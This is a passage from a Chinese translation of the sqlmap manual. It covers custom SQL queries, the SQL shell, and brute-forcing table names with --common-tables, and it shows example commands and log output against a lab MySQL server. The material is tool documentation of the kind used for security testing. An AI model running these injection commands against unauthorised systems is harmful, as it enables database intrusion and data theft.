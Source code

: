 ```
 going blind
[hh:mm:50] [DEBUG] query: SELECT ISNULL(CAST((CHAR(102)+CHAR(111)+CHAR(111)) AS 
VARCHAR(8000)), (CHAR(32)))
[hh:mm:50] [INFO] retrieved: foo
[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds
[hh:mm:50] [DEBUG] query: SELECT ISNULL(CAST((CHAR(98)+CHAR(97)+CHAR(114)) AS VA
RCHAR(8000)), (CHAR(32)))
[hh:mm:50] [INFO] retrieved: bar
[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds
SELECT 'foo', 'bar':    'foo, bar'
```

如您所见，sqlmap将提供的查询拆分为两个不同的 `SELECT` statements then retrieves the output for each separate query. 

如果提供的查询是一个 `SELECT`语句并包含一个`FROM`子句，sqlmap将询问这样的语句是否可以返回多个条目。在这种情况下，该工具知道如何正确地解压查询，以计数可能的条目的数量并检索它的输出，每个条目的条目。

SQL shell选项允许您交互式地运行自己的SQL语句，就像连接到数据库管理系统的SQL控制台一样。这个功能也提供了标签完成和历史支持。
破解

### 暴力

这些开关可以用来运行暴力检查。

### 暴力检索表名称

开关: `--common-tables`

有些情况下，开关`--tables`不能用于检索数据库的表名。这些案件通常属于以下类别之一:

* 数据库管理系统是MySQL **< 5.0** ，在这里不提供 `information_schema`。
* 数据库管理系统是Microsoft Access，系统表 `MSysObjects` 是不可读的 - 默认设置。
* 会话用户不具有对存储数据库方案的系统表的权限。

如果前两个案例中的任何一个应用，并且您提供了开关 `--tables`，sqlmap将提示您一个问题
回到这个技巧。这两种情况中的任何一个都适用于您的情况，sqlmap可能仍然可以识别一些现有的表，如果您提供了开关 `--common-tables`。sqlmap将执行蛮力攻击，以检测DBMS中常见表的存在。

常用表名的列表是 `txt/common-tables.txt` 。你可以随意编辑它。

针对MySQL 4.1目标的例子:

```
$ python sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --commo\
n-tables -D testdb --banner

[...]
[hh:mm:39] [INFO] testing MySQL
[hh:mm:39] [INFO] confirming MySQL
[hh:mm:40] [INFO] the back-end DBMS is MySQL
[hh:mm:40] [INFO] fetching banner
web server operating system: Windows
web application technology: PHP 5.3.1, Apache 2.2.14
back-end DBMS operating system: Windows
back-end DBMS: MySQL < 5.0.0
banner:    '4.1.21-community-nt'

[hh:mm:40] [INFO] checking table existence using items from '/software/sqlmap/tx
t/common-tables.txt'
[hh:mm:40] [INFO] adding words used on web page to the check list
please enter number of threads? [Enter for 1 (current)] 8
[hh:mm:43] [INFO] retrieved: users

Database: testdb
[1 table]
+-------+
| users |
+-------+
```